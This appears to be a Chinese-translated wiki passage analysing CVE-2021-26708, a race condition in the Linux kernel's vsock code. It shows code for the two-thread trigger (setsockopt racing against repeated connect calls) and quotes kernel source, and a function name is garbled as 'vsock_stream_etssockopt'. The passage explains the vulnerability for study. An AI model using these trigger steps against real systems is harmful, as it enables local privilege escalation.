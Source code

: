 <languages  /> <translate>

脆弱點
------

</translate>

<translate> 這些漏洞是由`net/vmw_vsock/af_vsock.c`中的錯誤鎖定引起的條件競爭。這些條件競爭是在2019年11月添加VSOCK多傳輸支持的提交中隱式引入的，並被合併到Linux內核5.5-rc1版本中。

`CONFIG_VSOCKETS`和`CONFIG_VIRTIO_VSOCKETS`在所有主要的GNU/Linux發行版中都作為內核模塊提供。當你為AF_VSOCK域創建一個套接字時，這些易受攻擊的模塊會自動加載。 </translate>

    vsock = socket(AF_VSOCK, SOCK_STREAM, 0);

<translate> `AF_VSOCK`套接字的創建對非特權用戶來說是可用的，並不需要用戶名空間。 </translate>

<translate>

內存破壞
--------

</translate>

<translate> 下面詳細介紹CVE-2021-26708的利用，利用了`vsock_stream_etssockopt()`中的條件競爭，復現需要兩個線程，第一個線程調用`setsockopt()`： </translate>

      setsockopt(vsock, PF_VSOCK, SO_VM_SOCKETS_BUFFER_SIZE,
                    &size, sizeof(unsigned long));

<translate> 第二個線程在`vsock_stream_etssockopt()`試圖獲取套接字鎖時改變虛擬套接字傳輸，通過重新連接虛擬套接字實現： </translate>

    struct sockaddr_vm addr = {
            .svm_family = AF_VSOCK,
        };

        addr.svm_cid = VMADDR_CID_LOCAL;
        connect(vsock, (struct sockaddr *)&addr, sizeof(struct sockaddr_vm));

        addr.svm_cid = VMADDR_CID_HYPERVISOR;
        connect(vsock, (struct sockaddr *)&addr, sizeof(struct sockaddr_vm));

<translate> 為了處理虛擬套接字的`connect()`，內核執行調用`vsock_assign_transport()`的`vsock_stream_connect()`。這個函數包含如下代碼： </translate>

         if (vsk->transport) {
                if (vsk->transport == new_transport)
                    return 0;

                /* transport->release() must be called with sock lock acquired.
                 * This path can only be taken during vsock_stream_connect(),
                 * where we have already held the sock lock.
                 * In the other cases, this function is called on a new socket
                 * which is not assigned to any transport.
                 */
                vsk->transport->release(vsk);
                vsock_deassign_transport(vsk);
            }
